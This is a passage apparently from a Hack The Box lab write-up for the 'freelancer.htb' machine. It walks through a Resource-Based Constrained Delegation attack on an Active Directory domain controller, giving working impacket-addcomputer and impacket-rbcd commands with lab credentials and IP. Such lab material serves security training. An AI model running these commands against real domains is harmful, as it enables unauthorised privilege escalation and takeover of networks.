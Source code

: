 - **<u>RBCD:</u>**

![image45](../resources/b4c06b1444aa4167b18a0d1c78d63cd7.png)

<https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5>

- Set the date and time to DC time:

```bash
sudo date -s "2024-06-07 16:35:00" && sudo hwclock --systohc

```
- Add a new machine account to use:

```bash
impacket-addcomputer -computer-name 'rbcd-test$' -computer-pass 'Password1!' -dc-ip 10.129.213.81 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'

```

![image46](../resources/74c05d3d495448ba9cd99d9e1b235b7d.png)

- Write:

```bash
impacket-rbcd -delegate-from 'rbcd-test$' -delegate-to 'DC\$' -dc-ip '10.129.213.81' -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'

```

![image47](../resources/2bf5ddffc27c4551a1a81fc0d69e3258.png)

